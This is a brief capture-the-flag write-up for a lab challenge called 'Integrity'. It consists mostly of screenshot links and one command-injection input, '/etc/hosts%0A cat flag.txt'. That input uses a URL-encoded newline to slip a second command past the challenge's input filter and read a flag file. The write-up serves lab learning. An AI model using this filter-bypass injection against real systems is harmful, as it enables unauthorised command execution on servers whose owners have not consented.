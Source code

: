 # Integrity
![image](https://user-images.githubusercontent.com/65381453/133928882-e0c71edd-0ac3-4c14-8967-529c3b82543f.png)

i try all special character but wrong

![image](https://user-images.githubusercontent.com/65381453/133928925-2d160b22-31ad-498a-a251-74b47422c75f.png)


```
/etc/hosts%0A cat flag.txt
```
![image](https://user-images.githubusercontent.com/65381453/133929393-16c74a35-5577-4459-9f93-ec6827c01c80.png)

in this lab %0A use to escape filter
